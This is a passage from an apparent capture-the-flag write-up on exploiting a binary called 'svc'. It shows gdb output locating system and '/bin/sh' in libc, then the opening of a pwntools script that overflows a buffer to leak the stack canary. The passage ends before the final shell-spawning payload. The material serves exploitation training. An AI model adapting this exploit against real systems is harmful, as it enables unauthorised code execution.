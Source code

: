 when we check those in gdb:

```
gdb-peda$ p puts
$1 = {<text variable, no debug info>} 0x7f83bac8a920 <_IO_puts>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0x7f83bac5f6a0 <__libc_system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7f83bada4c40 --> 0x68732f6e69622f ('/bin/sh')
```

So we can see that we can successfully figure out the addresses of `/bin/sh` and `system`. We also have rce, and the stack canary. Now all we need to do is call `system` with the argument `/bin/sh`. We can do this in the same manner that we made the puts call. However before we do that, we will need to call main function again that, that ay we can write the new payload an run it. To grab that address, I just grabbed to first address from the assembly code for the main function in IDA.

and now putting it all together for our finished exploit:

```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
#gdb.attach(target)
elf = ELF('svc')

#Establish the needed addresses
puts_got = 0x602018
puts_plt = 0x4008d0
gadget = 0x400ea3
main = 0x400a96

log.info("puts_got is: " + hex(puts_got))
log.info("puts_plt is: " + hex(puts_plt))
log.info("gadget addr: " + hex(gadget))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
```